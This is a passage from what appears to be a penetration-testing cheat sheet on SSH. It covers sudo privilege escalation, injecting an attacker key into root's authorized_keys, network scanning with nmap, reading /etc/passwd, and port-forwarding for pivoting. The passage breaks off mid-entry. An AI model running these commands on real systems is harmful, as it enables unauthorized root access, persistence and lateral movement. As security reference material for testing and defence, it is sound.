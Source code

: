 *   **Tool:** \[\[SSH]], Sudo

    ```bash
    ssh <username>@<target_ip> "sudo <command>"
    ```
* **Description:** If a user has sudo privileges without requiring a password, escalate privileges by executing commands as root.

#### Privilege Escalation via Key Injection

*   **Tool:** \[\[SSH]], \[\[Custom Scripts]]

    ```bash
    echo "<attacker_public_key>" >> /root/.ssh/authorized_keys
    ```
* **Description:** Injects an attacker’s key into the root’s authorized keys, allowing them to log in as root via SSH.

### Internal Reconnaissance

#### Mapping the Network

*   **Tool:** \[\[SSH]], \[\[Nmap]]

    ```bash
    ssh <username>@<target_ip> "nmap -sP 192.168.1.0/24"
    ```
* **Description:** Uses SSH to run network discovery commands on the internal network, mapping out live hosts.

#### Enumerating Users

*   **Tool:** \[\[SSH]], \[\[Custom Scripts]]

    ```bash
    ssh <username>@<target_ip> "cat /etc/passwd"
    ```
* **Description:** Enumerates user accounts on the target system, identifying potential targets for further exploitation.

### Lateral Movement, Pivoting, and Tunnelling

#### Local Port Forwarding

*   **Tool:** \[\[SSH]]

    ```bash
    ssh -L <local_port>:<destination_ip>:<destination_port> <username>@<target_ip>
    ```
* **Description:** Forwards traffic from `<local_port>` on the client to `<destination_ip>:<destination_port>` on the server.

#### Remote Port Forwarding

*   **Tool:** \[\[SSH]]
